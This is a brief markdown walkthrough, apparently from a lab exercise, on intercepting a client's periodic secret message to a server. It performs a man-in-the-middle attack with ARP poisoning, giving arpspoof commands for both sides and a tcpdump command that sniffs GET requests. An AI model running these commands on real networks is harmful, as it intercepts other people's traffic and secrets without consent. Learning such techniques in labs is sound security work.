 # Victim description

-   `Client` will send to `server` periodically a secret message. Our job is to capture what is that secret

# Set up MITM attack: With ARP poisoining

-   Step 1:
    -   poison client side: `arpspoof -i eth0 -t (server_ip address) (client_ip address)`
-   Step 2:
    -   poison server side: `arpspoof -i eth0 -t (client_ip address) (server_ip address)`
-   Step 3:
    -   packet sniffing in the middle with `tcpdump`
    -   Capture GET requests: `tcpdump -Alvvs0 | grep 'GET'`
